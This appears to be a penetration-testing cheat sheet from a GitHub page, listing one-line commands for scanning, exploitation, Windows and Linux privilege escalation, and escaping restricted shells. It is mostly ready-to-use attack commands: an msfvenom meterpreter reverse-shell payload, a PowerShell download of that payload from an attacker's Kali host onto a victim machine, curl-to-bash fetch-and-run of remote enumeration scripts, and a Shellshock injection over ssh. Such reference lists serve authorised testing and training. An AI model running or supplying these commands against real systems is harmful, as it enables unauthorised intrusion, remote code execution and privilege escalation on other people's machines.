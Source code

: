 ## Enum
* `nmap -Pn -n -p- -sT --min-rate 5000 {ip}` _Quick nmap all ports_
* `nmap -Pn -n -p- -sV -A {ip}` _Slow nmap all info_
* `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -o gobuster.txt ` _Gobuster scan for folders with n threads_
* `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://{site} -r -t {n} -x php,asp,aspx,html -o gobuster_aspx.txt` _Gobuster scan for pages with n threads_

## Exploit
* `python -m SimpleHTTPServer 80` _Start web server on kali in current dir_
* `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={ip} LPORT={port} -f exe >m.exe` _Make a standard meterpreter exe_

## Priv Esc Windows
* `powershell -command "& { (New-Object Net.WebClient).DownloadFile('http://{kali_ip}:8080/m.exe', 'c:\users\victim\desktop\m.exe') }"` _Powershell download a file_
* `systeminfo >systeminfo.txt` _Export sysinfo from windows
* `python windows-exploit-suggester.py --database 2018-09-06-mssb.xls --systeminfo sysinfo.txt` _Use exported sysinfo file to check for possible exploits using this tool https://github.com/GDSSecurity/Windows-Exploit-Suggester.git_
* `python windows-exploit-suggester.py --update` _Get new database file for exploit suggester_

## Pric Esc Linux
* `curl {kali_ip}:{port}/LinEnum.sh | /bin/bash` _Run linux enum script without dropping it on disk_
* `curl {kali_ip}:{port}/linuxprivchecker.py | python` _Run linux priv checker without dropping it on disk_
* `/sbin/getcap -r / 2>/dev/null` _Search filesytem for files with special capabilities.  Similar to suid_

## Pric Esc Generic
* `run post/multi/recon/local_exploit_suggester` _Check for local priv esc exploits.  Must be interacting with meterpreter session_

## Break out of limited shell 
**(Credit Gos Here https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)**
* `env` _Check environmential variables_
* `echo $PATH` _Check path for executables_
* `echo $SHELL` _What shell is in use_
* `/bin/sh` _Just run new shell_
* `export PATH=/bin:/usr/bin:$PATH` _Just add folders to PATH_
* `export SHELL=/bin/sh` _Just change shell_
* `cp /bin/sh /some/dir/from/PATH; sh` _Copy sh to a runable folder and launch it_
* `ftp, gdb, more, less, man, vi, vim, scp, awk, find` _Can all launch shells_
* `ssh restricted@x.x.x.x -t "/bin/sh"` _Execute /bin/sh before remote shell is loaded_
* `ssh restricted@x.x.x.x -t "bash --noprofile"` _Start remote shell without loading rc profile_
* `ssh restricted@x.x.x.x -t "() { :; }; /bin/bash"` _Try shell shock_
* `python -c 'import os; os.system("/bin/bash")'` _Launch shell with python_
* `perl -e 'exec "/bin/sh";'` _Launch shell with perl_